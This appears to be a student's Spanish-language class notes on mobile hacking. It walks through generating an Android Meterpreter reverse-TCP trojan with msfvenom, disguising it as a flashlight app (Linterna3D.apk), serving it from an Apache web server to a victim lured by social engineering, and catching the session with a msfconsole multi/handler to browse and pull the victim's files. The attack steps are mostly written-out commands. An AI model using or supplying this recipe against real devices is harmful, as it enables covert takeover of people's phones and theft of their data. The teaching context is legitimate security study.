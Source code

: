 Accediendo

cd usr/share/metasploitframwork

Entonces con en `msfvenom` uno puede crear un fichero malcioso de forma que al abrir el archivo hace un reverse-tcp y le pega a muchos, lo curioso es que es un híbrido, se setea la IP del atacante, no la de la victima porque esta es la que abre el servicio (es un multihandler, le pega a todos, no está como un exploit remoto, es un trojano) entonces nos dice que seguir algún tutorial, por ejemplo el de [tutorial](https://www.youtube.com/watch?v=6czcx6YDQOU), además del sitio [Versiones VMWare android](https://www.osboxes.org/Android%20x86/#android-x86-71-vmware)


Entonces hacemos `msfvenom -p android android/meteroreter/reverse_tcp LHOST=<atacker.ip>=192.168.237.2 R > Linterna3D.apk`

Esperamos, y si queremos conocer más parametros con `options`, algúnos exploits tienen parametros adicionales (`jsesion` y son cosas que no salen en las cosas por defecto)

Luego un `sudo co linterna.apk /var/www/html` luego
`cd /var/www/html`

Y luego arranca un servicio de apache `sudo service apache2 start` acá el profe va a hacer un web server que la persona acceda y se descarga la aplicación

Entonces supongamos le envía una URL decente y no se vería un index al acceder al <striker.ip>, entonces pues se descarga el bicho, lo abre y PUM! En tu cara.

Pero antes de ejecutar como victima debemos preparar un listener, que cuando entre haga la conexión TCP.

Hacemos `msfconsole`

```bash
use exploit multi handler

set payload android/meterpreter/reverse_tcp

set LHOST ip.atacker

set lport 4444
set exit on sesion false

# para ver las sesiones
sessions -i


# Poner la sesión que queramos
sessions -i 1

# hacemos un ls para mirar y ver qué nos podemos bajar
cd files

```

Ni en el venom parametrizamos la IP de la víctima, pero le configuramos al trojano malicioso desde la máquina (el puerto) a la víctima que abrió el APK.
No de el IP de la victima pero porque fue mediante ingeniería social, por eso si tiene un zip o rar hace una descompresión sin querer y pailas.